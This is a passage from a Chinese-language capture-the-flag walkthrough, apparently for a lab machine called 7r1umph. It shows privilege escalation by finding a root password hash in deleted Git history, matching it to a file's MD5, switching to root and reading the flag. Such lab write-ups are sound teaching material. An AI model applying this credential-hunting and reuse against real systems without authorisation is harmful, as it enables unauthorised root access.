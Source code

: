 发现 `.git` 目录，表明这是一个Git仓库，可能包含历史信息。

### 4.5 提权至 root 用户

检查Git仓库的历史记录。

```bash
welcome@7r1umph:~/RegView$ git log -p
```

在 `git log` 的输出中，发现了一个历史提交记录，其中删除了一个名为 `source2.txt` 的文件，该文件内容包含了一个看起来像凭证的字符串：

```diff
commit acd806aad21acb61112252234c7707bc8a74dd3c (HEAD -> main)
Author: bamuwe <bamuwe@qq.com>
Date:   Sat Apr 12 01:33:50 2025 -0400

    fix bug

diff --git a/source2.txt b/source2.txt
deleted file mode 100644
index fca9fc6..0000000
--- a/source2.txt
+++ /dev/null
@@ -1 +0,0 @@
-root:ff855ad811c79e5fba458a575fac5b83

# ... 其他提交记录 ...
```

发现了 `root` 用户的凭证信息：`root:ff855ad811c79e5fba458a575fac5b83`。
这里的 `ff855ad811c79e5fba458a575fac5b83` 看起来像一个哈希值。

同时，联想到之前在 `/opt` 目录下发现的 `guess` 文件。可以尝试计算该文件的MD5值：

```bash
welcome@7r1umph:~/RegView$ md5sum /opt/guess
ff855ad811c79e5fba458a575fac5b83  /opt/guess
```

发现 `guess` 文件的MD5值与Git历史记录中泄露的 `root` 密码（或哈希）完全一致。在CTF中，有时哈希值本身就是密码。尝试使用这个哈希值作为 `root` 密码。

```bash
welcome@7r1umph:~/RegView$ su -
Password: ff855ad811c79e5fba458a575fac5b83
root@7r1umph:~# id
uid=0(root) gid=0(root) groups=0(root)
# 成功切换到 root 用户
```

### 4.6 获取 Root Flag

切换到 `root` 用户后，在其家目录下查找 `root.txt`。

```bash
root@7r1umph:~# cat /root/root.txt
flag{root-ff855ad811c79e5fba458a575fac5b83}
```
